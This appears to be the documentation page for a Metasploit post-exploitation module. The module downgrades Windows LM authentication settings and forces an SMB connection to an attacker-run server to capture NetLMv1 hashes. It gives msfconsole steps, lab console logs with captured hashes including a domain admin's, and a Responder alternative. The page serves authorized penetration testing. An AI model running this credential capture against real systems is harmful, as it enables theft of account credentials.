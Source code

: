 ## Vulnerable Application

This module changes the system `LmCompatibilityLevel` registry value
to enable sending LM challenge hashes and initiates a SMB connection
to the host specified in the SMBHOST module option. If an SMB server
is listening, it will receive the NetLM hashes for the session user.


## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/netlm_downgrade`
4. Do: `set SESSION <session id>`
5. Start a SMB server to capture hashes
6. Do: `set SMBHOST <SMB server IP address>`
7. Do: `run`

## Options


### SMBHOST

IP address of SMB server to capture hashes.


## Scenarios

### Windows 11 Pro 10.0.22000 Build 22000 x64

```
msf > use auxiliary/server/capture/smb
msf auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 2.

[*] Server is running. Listening on 0.0.0.0:445
[*] Server started.
msf auxiliary(server/capture/smb) > use post/windows/gather/netlm_downgrade 
msf post(windows/gather/netlm_downgrade) > set session 1
session => 1
msf post(windows/gather/netlm_downgrade) > run

[*] Running module against WINDEV2110EVAL (192.168.200.140)
[*] NetLM authentication is disabled (LmCompatibilityLevel: nil). Enabling ...
[+] NetLM authentication is enabled
[*] Establishing SMB connection to 192.168.200.130
[+] Received SMB connection on Auth Capture Server!
[SMB] NTLMv1-SSP Client     : 192.168.200.140
[SMB] NTLMv1-SSP Username   : WINDEV2110EVAL\User
[SMB] NTLMv1-SSP Hash       : User::WINDEV2110EVAL:414a0d26193abde800000000000000000000000000000000:44d90728eeb025c1dcf4730a0282422614cbc8e590e99a11:b0e33cde858f04d5

[+] SMB server 192.168.200.130 should now have NetLM hashes
[*] Restoring original LM compatibility level (LmCompatibilityLevel: nil)
[*] Post module execution completed
msf post(windows/gather/netlm_downgrade) > 
```

### Windows Server 2008 SP1 (x64)

```
msf > use auxiliary/server/capture/smb
msf auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 2.

[*] Server is running. Listening on 0.0.0.0:445
[*] Server started.
msf auxiliary(server/capture/smb) > use post/windows/gather/netlm_downgrade 
msf post(windows/gather/netlm_downgrade) > set smbhost 192.168.200.130
smbhost => 192.168.200.130
msf post(windows/gather/netlm_downgrade) > set session 1
session => 1
msf post(windows/gather/netlm_downgrade) > run

[*] Running module against WIN-17B09RRRJTG (192.168.200.218)
[*] NetLM authentication is disabled (LmCompatibilityLevel: 3). Enabling ...
[+] NetLM authentication is enabled (LmCompatibilityLevel: 0)
[*] Establishing SMB connection to 192.168.200.130
[+] Received SMB connection on Auth Capture Server!
[SMB] NTLMv1-SSP Client     : 192.168.200.218
[SMB] NTLMv1-SSP Username   : CORP\corpadmin
[SMB] NTLMv1-SSP Hash       : corpadmin::CORP:de7f490cc7f7f8a700000000000000000000000000000000:8a34755c17fdbd4f1d7338b5ed7617e2000f071f05869f2e:c30fd80a6709381b

[+] SMB server 192.168.200.130 should now have NetLM hashes
[*] Restoring original LM compatibility level (LmCompatibilityLevel: 3)
[*] Post module execution completed
msf post(windows/gather/netlm_downgrade) > 
```

Alternatively, the SMB connection can captured using [Responder](https://github.com/lgandx/Responder):

```
$ sudo responder -A -I eth0 --lm -v

[...]

[SMB] NTLMv1 Client   : 192.168.200.218
[SMB] NTLMv1 Username : CORP\corpadmin
[SMB] NTLMv1 Hash     : corpadmin::CORP:3FFCF0AED51EF9784B17BF71859355CA0FF968A42BF925D4:3FFCF0AED51EF9784B17BF71859355CA0FF968A42BF925D4:07168acbca2d7e8e
```

